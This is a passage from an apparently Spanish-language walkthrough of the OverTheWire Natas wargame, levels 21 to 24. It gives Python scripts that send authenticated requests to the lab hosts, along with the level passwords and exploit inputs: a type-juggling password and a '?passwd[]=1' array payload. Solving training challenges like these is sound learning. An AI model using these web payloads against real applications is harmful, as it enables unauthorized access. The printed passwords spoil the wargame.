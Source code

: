 ~~~
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas21.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php’, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()
~~~
Dos sitios web comparten la misma sesión
chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

# Natas22
~~~
import httplib,sys
from base64 import b64encode
from urllib import urlencode

httpClient = None
try:
userAndPass = b64encode(b”natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ”).decode(“ascii”)
#body=urlencode({‘submit’ : ‘a’, ‘admin’:’1′})
#cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ }#, ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas22.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?revelio=a’, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()
~~~

Al programa no le importa qué es una “Ubicación”
D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

# Natas23

11iloveyou
OsRmXFguozKpTZZ5X14zNO43379LZveg

# Natas24
http://natas24.natas.labs.overthewire.org/?passwd[]=1
